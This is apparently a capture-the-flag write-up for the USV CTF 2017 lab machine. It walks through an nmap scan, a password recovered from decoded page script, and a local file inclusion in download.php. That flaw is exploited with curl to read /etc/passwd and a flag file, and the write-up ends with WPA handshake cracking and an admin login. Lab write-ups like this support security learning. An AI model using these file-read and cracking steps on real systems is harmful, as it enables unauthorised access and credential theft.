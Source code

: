 ```yaml
---
categories: [Proving Grounds Play]
tags: [PrivEsc]
---
```


Lets find out the Victim machines IP ⬇️IP : 

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled.png)

```
IP : 10.0.2.35
```

## Port Scan Results ⤵️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.35
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 14:10 IST
Nmap scan report for 10.0.2.35
Host is up (0.00057s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            ProFTPD 1.3.5b
22/tcp    open  ssh            OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 d71072d8d276b21e28110411b4e2984e (RSA)
|   256 b82961bbf18cc464ddf50ea0a22ffdaa (ECDSA)
|_  256 2b7e351042ca082066418880a04f02e6 (ED25519)
80/tcp    open  http           Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
4369/tcp  open  epmd           Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    ejabberd: 34713
5222/tcp  open  jabber         ejabberd (Protocol 1.0)
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|       lang: en
|       server name: localhost
|       version: 1.0
|     errors: 
|       host-unknown
|       host-unknown
|       (timeout)
|     auth_mechanisms: 
|     features: 
|     unknown: 
|     stream_id: 13835454705195693772
|     compression_methods: 
|_    capabilities: 
5269/tcp  open  jabber         ejabberd
| xmpp-info: 
|   Ignores server name
|   info: 
|     xmpp: 
|       version: 1.0
|     capabilities: 
|   pre_tls: 
|     xmpp: 
|     capabilities: 
|     features: 
|       TLS
|   post_tls: 
|     xmpp: 
|_    capabilities: 
5280/tcp  open  ssl/xmpp-bosh?
| ssl-cert: Subject: commonName=ejabberd/organizationName=stl.int
| Not valid before: 2017-10-23T20:50:49
|_Not valid after:  2018-10-23T20:50:49
|_ssl-date: TLS randomness does not represent time
15020/tcp open  http           Apache httpd
|_http-title: 400 Bad Request
|_http-server-header: Apache
34713/tcp open  unknown
MAC Address: 08:00:27:1A:A2:58 (Oracle VirtualBox virtual NIC)
Service Info: Host: localhost; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%203.png)

Now let’s try to brute force the password >>

From Source code I got a hex encoded script code after decoding it I got this >>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%204.png)

So this code gives me a formula to calculate password ⬇️

**(stringconcat(password+4469)-234562221224)*1988=1079950212331060**

After calculating I got the password =77779673 , Lets use it now —> 

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%205.png)

This is our `1st flag ➡️ Italy:46202df2ae6c46db8efc0af148370a78`

Now lets enumerate port 15020 >>

while looking into the ssl certificate  I got this next flag ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%206.png)

Our next `2nd flag ➡️ a51f0eda836e4461c3316a2ec9dad743`

Further Enumeration I got this >>>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%207.png)

So lets see the source code ➡️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%208.png)

Now lets access the download.php file >>>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%209.png)

So I see we have LFI but I can’t execute it through web so lets use `curl`.

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ curl -d "image=/etc/passwd" https://10.0.2.35:15020/blog/download.php -k
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
teo:x:1000:1000:teo,,,:/home/teo:/bin/bash
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:108:65534::/run/proftpd:/bin/false
ftp:x:109:65534::/srv/ftp:/bin/false
kevin:x:1001:1001::/home/kevin:
epmd:x:110:113::/var/run/epmd:/bin/false
ejabberd:x:111:114::/var/lib/ejabberd:/bin/sh
oana:x:1002:1002::/home/oana:
```

Now I got it , let ‘s access the flag.txt from kevin home.

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ curl -d "image=/home/kevin/flag.txt" https://10.0.2.35:15020/blog/download.php -k
Croatia: e4d49769b40647eddda2fe3041b9564c
```

Now I downloaded the whole /vault/ directory ➡️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2010.png)

Now lets find the files inside the vault ➡️

```bash
find ./ -type f | grep -v .html
```

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2011.png)

Now lets see the cap file ⤵️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2012.png)

Now lets convert this WPA cap file to the format of hccapx hash format so that we can use our rockyou.zip file decode the hash.

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2013.png)

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2014.png)

so the password is `minion.666` let’s use this to login into the port 15020 with user as `admin`.

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2015.png)

Source Code ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2016.png)

`flag 4 ➡️ Philippines: 551d3350f100afc6fac0e4b48d44d380`